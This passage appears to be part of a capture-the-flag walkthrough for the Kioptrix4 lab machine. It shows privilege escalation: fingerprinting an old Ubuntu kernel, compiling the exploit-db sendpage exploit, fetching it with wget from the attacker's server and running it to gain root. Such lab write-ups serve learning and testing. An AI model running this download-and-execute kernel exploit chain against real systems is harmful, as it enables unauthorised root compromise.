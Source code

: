 So I hoped maybe I could use roberts credentials to get a higher level of privilege, but alas he has exactly the same restrictions as john.

Exploit
---------

After a lot of searching I decided to see if a kernel exploit existed.
```bash
robert@Kioptrix4:/$ cat /etc/*-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=8.04
DISTRIB_CODENAME=hardy
DISTRIB_DESCRIPTION="Ubuntu 8.04.3 LTS"

Linux version 2.6.24-24-server
robert@Kioptrix4:/$ uname -a
Linux Kioptrix4 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686 GNU/Linux
```

So it's an x86 linux won version 2.6.24, I wonder if there's an exploit around (It's old so probably).  In the end, after trying a few, [this sendpage exploit](https://www.exploit-db.com/exploits/9545/) ended up working.

```bash
root@kali:~# sudo apt-get install libc6-dev-i386
kali:~# cp /usr/share/exploitdb/platforms/linux/local/9545.c .
root@kali:~# gcc 9545.c -o newexp -m32
root@kali:~#
```

I then opened up a python server on the directory and wget'd it to the tmp directory.

```bash
robert@Kioptrix4:/tmp$ wget 192.168.137.131:8000/newexp
--16:45:35--  http://192.168.137.131:8000/newexp
           => `newexp'
Connecting to 192.168.137.131:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7,944 (7.8K) [application/octet-stream]

100%[=======================================================================================================================================================================>] 7,944         --.--K/s             

16:45:35 (1.05 GB/s) - `newexp' saved [7944/7944]

robert@Kioptrix4:/tmp$ ls
exp_12  exp2  newexp
robert@Kioptrix4:/tmp$ chmod 777 newexp
robert@Kioptrix4:/tmp$ ./newexp
# id
uid=0(root) gid=0(root) groups=1002(robert)
```
Yay, we got root!
